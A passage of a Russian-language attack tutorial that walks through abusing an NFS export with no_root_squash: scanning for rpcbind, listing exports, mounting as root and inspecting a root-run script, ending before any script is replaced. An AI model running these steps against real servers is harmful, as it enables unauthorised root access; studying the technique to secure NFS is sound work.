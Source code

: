 ### Детальный пример атаки: Подмена системного скрипта через NFS с `no_root_squash` с пошаговыми пояснениями

#### Шаг 1: Обнаружение и анализ (Discovery)
**Цель:** Найти уязвимые NFS-серверы и проверить их конфигурацию.

**Команды:**
```bash
nmap -sU -p111 --open 192.168.1.0/24 -oG nfs-servers.txt
showmount -e 192.168.1.100
```

**Пояснения:**
1. `nmap -sU -p111`: UDP-сканирование порта 111 (rpcbind), который всегда используется NFS
2. `--open`: Показать только открытые порты
3. `-oG nfs-servers.txt`: Сохранить результаты в grep-формате
4. `showmount -e`: Показать экспортированные директории на конкретном сервере

**Ключевая находка:**  
Директория `/scripts` экспортирована для всех (`everyone`) с правами чтения/записи.

---

#### Шаг 2: Подготовка к атаке (Privilege Escalation)
**Цель:** Получить возможность создавать файлы от имени root на сервере.

**Команды:**
```bash
mkdir -p /mnt/nfs_scripts
sudo mount -t nfs -o vers=3,nolock,proto=tcp,uid=0,gid=0 192.168.1.100:/scripts /mnt/nfs_scripts
echo "Test file" | sudo tee /mnt/nfs_scripts/test_file
ls -n /mnt/nfs_scripts/test_file
```

**Пояснения:**
1. `mkdir -p`: Создать точку монтирования (если не существует)
2. Параметры монтирования:
   - `vers=3`: Версия протокола NFS
   - `nolock`: Отключить блокировки (упрощает эксплуатацию)
   - `proto=tcp`: Использовать TCP вместо UDP (надежнее)
   - `uid=0,gid=0`: Принудительно устанавливать владельца файлов как root
3. `tee`: Создать тестовый файл и вывести содержимое
4. `ls -n`: Показать UID/GID файла (0 = root)

**Почему это работает:**  
Опция `no_root_squash` в `/etc/exports` позволяет сохранять root-права при записи файлов.

---

#### Шаг 3: Анализ содержимого
**Цель:** Найти скрипты, выполняемые с привилегиями root.

**Команды:**
```bash
ls -la /mnt/nfs_scripts
cat /mnt/nfs_scripts/daily_backup.sh
```
